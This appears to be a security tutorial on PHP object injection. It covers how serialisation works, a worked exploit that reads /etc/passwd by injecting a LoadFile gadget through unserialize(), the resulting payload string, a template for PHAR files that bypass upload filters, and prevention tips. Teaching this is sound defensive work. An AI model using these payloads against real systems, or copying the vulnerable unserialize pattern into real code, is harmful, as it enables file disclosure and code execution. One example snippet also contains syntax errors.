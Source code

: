 # Introduction
PHP Object Injection is a type of an insecure deserialisation attack which can result in arbitrary code execution.

### Magic Methods
[PHP Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) are a set of reserved methods for PHP objects which can be defined and which are automatically invoked in certain situations. Whilst it is possible to achieve code execution entirely by using normal methods on objects, magic methods can make the process easier.

# Serialisation
PHP has functionally which allows arbitrary objects to be turned into strings and then later retrieved as objects from those same strings. This is achieved through the `serialize()` and `unserialize()` functions. When an adversary has control over the object which gets deserialised, they can manipulate the input in such a way to make the PHP script perform arbitrary actions.

```php
<?php
class User
{
	public $name;
	public $isAdmin;
}

$user = new User();
$user->name = "cr0mll";
$user->isAdmin = False;

echo serialize($user);
?>
```

![](Resources/Images/PHP%20Object%20Injection/Object%20Serialisation.png)

The serialisation string follows the *type:data* paradigm and has the following structure:

|Type|Format|
|:---:|:----:|
|Boolean|`b:value`|
|Integer|`i:value`|
|Float|`d:value`|
|String|`s:length:"value"`|
|Array|`a:size:{values}`|
|Object|`O:name_length:"Class_name":number_of_properties:{properties}`|

# Deserialisation

Deserialisation is the inverse operation - the `unserialize()` function takes a string and converts it to a PHP object (or normal variable). When the string passed to `unserialize()` is user-controlled, an adversary can craft a custom string which will result in an object with values of the attacker's choice. When these values are later used by the PHP application, they can alter its behaviour. Take a look at the following example:

```php
<?php
class LoadFile
{
	public function __tostring()
	{
		return file_get_contents($this->filename);
	}
}

class User
{
	public $name;
	public $isAdmin;
}

$user = unserialize($_POST['user']);

if $user->isAdmin
{
	echo $user->name . " is an admin.\n"
}
else
{
	echo $user->name . " is not an admin.\n"
}
?>
```

In order to achieve arbitrary code execution, object injection relies on [PHP Gadgets](https://github.com/ambionics/phpggc) - pieces of code (typically classes) that the PHP script has access to. Usually, PHP code runs in some sort of a framework - when this is true, it is rather easy to find gadgets. Here, however, we do not have that luxury.

The `User` class is only a storage container - it has no functionality. On the other hand, the `LoadFile` class *can* do some stuff. It has the `__tostring` magic method defined and it returns the contents of the file with the provided filename. 

We can manipulate the `user` object. Therefore, it is possible to set its `name` to an object - namely a `LoadFile` object with the file name set to anything we like. When the server receives this malicious `user` with an embedded `LoadFile` object, it is going to attempt to turn it into a string when `echo` is called. The embedded `LoadFile` object has its `filename` set to `/etc/passwd` for example, and so `file_get_contents()` is going to read this file, return its contents as a string and echo will print them out for us. Here is the exploit code:

```php
<?php
class LoadFile
{
	public function __tostring()
	{
		return file_get_contents($this->filename);
	}
}

class User
{
	public $name;
	public $isAdmin;
}

$obj = new LoadFile();
$obj->filename = "/etc/passwd";

$user = new User();
$user->name = $obj;
$user->isAdmin = true;

echo serialize($user);
?>
```

When we run this, we get the following serialisation string for the malicious `user`:
```bash
O:4:"User":2:{s:4:"name";O:8:"LoadFile":1:{s:8:"filename";s:11:"/etc/passwd";}s:7:"isAdmin";b:1;}
```

If we send it in a post request to the server, it will retrieve `/etc/passwd` for us:

![](Resources/Images/PHP%20Object%20Injection/Object%20Injection%20Success.png)

### Prevention
Never allow direct user control over the data passed to `unserialize()`.

# PHAR Files
PHAR is the PHP Archive format and can allow for object injection even when there is no direct `unserialize()` call - provided that there is a way to upload a file to the server. Phar archives require neither a specific extension nor a set of magic bytes for identification which makes them especially useful for bypassing file upload filters. 

The format of the archive is the following:
- Stub - must contain `<?php __HALT_COMPILER(); ?>`
- Manifest
- Metadata - contains the serialised data
- Contents - the archive contents
- Signature - for integrity verification

![](Resources/Images/PHP%20Object%20Injection/Phar%20Hex%20Dump.png)

You would be quick to think that you can just inject code into the stub and it will be executed, but that is not the case. Where the stub really shines is the fact that it can contain anything before the `<?php __HALT_COMPILER(); ?>` part. This means that the stub can be used to imitate other file formats.

Under the hood, PHAR stores metadata in a PHP-serialised format which needs to be deserialised when PHP uses the archive. In order for this to happen, the server needs to access the archive using the `phar://` stream wrapper. It is for this reason that a way of uploading files to it is necessary.

### Generating the Payload
If you try generating a phar file using PHP, you will likely run into the following error:

![](Resources/Images/PHP%20Object%20Injection/Phar%20Generation%20Error.png)

In this case, you will need to set `phar.readonly = Off` in your `/etc/php/<version>/cli/php.ini` file (this is not required on the server, only on your machine). Afterwards, you can use the following code to generate the phar file:

```php
<?php
$phar = new Phar("archive.phar"); # a .phar extension is required here but not when the archive is accessed using phar://
$phar->startBuffering();

$prefix = ...; # The data used for imitating another file format
$phar->setStub($prefix . "<?php __HALT_COMPILER(); ?>");

$payload = ...; # Object injection payload
$phar->setMetadata(serialize($payload));

$phar->addFromString("test.txt", "test"); # Optional
$phar->stopBuffering();
?>
```

The extension of the file can then be changed to anything. Subsequently, the file will need to be uploaded to the server. Once it is there, a way to make the server perform a file operation with `phar://<filename>` is required.

Additionally, there are a few caveats which need to be taken into account. The payload inside the object injection chain may only use the `__wakeup()` and `__destruct()` magic methods. Moreover, any file paths inside it must be absolute because phar files deal with context in a weird way when they are loaded.

## Prevention
The only way to completely prevent phar file abusing is to disable the `phar://` stream wrapper altogether:

```cpp
stream_wrapper_unregister('phar');
```